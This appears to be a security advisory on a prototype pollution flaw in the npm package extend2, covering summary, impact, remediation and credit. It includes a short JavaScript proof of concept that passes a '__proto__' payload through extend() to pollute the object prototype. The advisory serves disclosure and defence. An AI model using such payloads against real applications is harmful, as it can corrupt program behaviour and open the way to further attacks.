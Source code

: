 ```yaml
---
title: Prototype pollution in extend2
date: 2021-06-28
tags:
	- "npm"
	- "prototype-pollution"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2021-4800/
cves:
---
```

## Summary
Affected versions of extend2 (npm) are vulnerable to prototype pollution via the extend function.

## Product
All versions of extend2 (npm).

## Impact
If untrusted data reaches one of the affected functions, prototype pollution can be achieved. The impact will depend on the application.

## Steps to reproduce
```js
const extend = require('extend2');
a = {'a':1};
extend(true, {}, a, JSON.parse('{"__proto__":{"polluted":1}}'));
console.log({}.polluted);
```

### Expected result:
1 will be printed to the console.

## Remediation
Currently no fix has been released. As a workaround, avoid passing untrusted inputs to the vulnerable function.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [NPM Package](https://www.npmjs.com/package/extend2)
